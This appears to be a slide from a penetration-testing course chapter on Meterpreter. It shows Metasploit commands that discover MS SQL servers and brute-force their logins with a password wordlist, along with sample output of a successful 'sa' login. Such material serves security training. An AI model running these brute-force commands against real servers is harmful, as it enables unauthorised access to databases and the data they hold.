

# Chapter 6 METERPRETER
MS SQL

use scanner/mssql/mssql_ping
Brute Forcing MS SQL Server
use scanner/mssql/mssql_login
set PASS_FILE Wordlist.txt
set RHOSTS <HOST>
set THREADS 11
exploit
	[+] 192.168.1.1:1433 - MSSQL - successful login 'sa' : ‘pass20000'